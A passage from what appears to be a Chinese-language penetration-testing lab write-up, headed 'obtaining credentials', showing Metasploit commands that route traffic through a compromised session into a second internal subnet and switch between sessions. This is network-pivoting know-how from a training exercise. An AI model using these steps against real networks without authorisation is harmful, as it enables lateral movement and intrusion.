 ### 获取凭证

这里因为有两个网段就先把路由添加上方便后续操作

```zsh
# msf操作
background
route add 192.168.138.0 255.255.255.0 9 #9是session号		192.168.138.0是为了能访问192.168.138.0/24网段
route print
    
# session操作
run autoroute -s 192.168.138.0/24
run autoroute -p

sessions #列出所有后台会话
sessions 9 #切换回会话9
```

<img src="image/image-20240410141358927.png" alt="image-20240410141358927" style="zoom:80%;" />

background把会话保存在了session 9，所以这里用9

<img src="image/image-20240410145620391.png" alt="image-20240410145620391" style="zoom: 80%;" />

到sessions 1进行下一步操作
